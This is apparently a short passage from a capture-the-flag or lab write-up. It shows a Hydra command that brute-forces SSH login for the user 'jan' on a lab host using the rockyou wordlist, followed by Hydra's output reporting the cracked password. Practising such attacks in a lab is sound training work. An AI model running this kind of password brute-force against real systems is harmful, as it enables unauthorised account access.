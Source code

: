 ## hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.239.200 | tee hydra.txt 


Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-18 01:44:06
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.239.200:22/
[STATUS] 110.00 tries/min, 110 tries in 00:01h, 14344288 to do in 2173:23h, 16 active
[STATUS] 112.00 tries/min, 336 tries in 00:03h, 14344062 to do in 2134:32h, 16 active
[STATUS] 105.14 tries/min, 736 tries in 00:07h, 14343662 to do in 2273:41h, 16 active


####  [22][ssh] host: 10.10.239.200   login: jan   password: armando

1 of 1 target successfully completed, 1 valid password found

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-18 01:52:12
